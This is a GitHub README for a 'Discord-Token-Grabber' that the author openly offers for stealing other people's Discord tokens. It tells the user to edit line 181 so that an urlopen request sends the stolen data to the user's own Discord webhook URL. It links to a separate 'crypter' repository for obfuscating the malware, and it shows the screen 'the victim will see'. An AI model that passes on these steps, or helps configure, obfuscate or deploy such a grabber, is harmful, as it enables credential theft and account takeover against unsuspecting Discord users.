 
# Discord-Token-Grabber

Simple token grabber for discord (the token grabber code is not mine but I made some small changes)
- [@wodxgod](https://github.com/wodxgod) Author of the base code


## How to use

To use the token grabber modify line 181

from:
```bash
  urlopen(Request("Webhook", data=dumps(webhook).encode(), headers=getheaders()))
```
to:
```bash
  urlopen(Request("https://discord.com/api/webhooks/...", data=dumps(webhook).encode(), headers=getheaders()))
```




## How to obfuscate/crypt

[Refer to this repository](https://github.com/PushpenderIndia/crypter)


## Screenshots
 The victim will see this screen
![App Screenshot](https://i.imgur.com/csrd4jY.png)




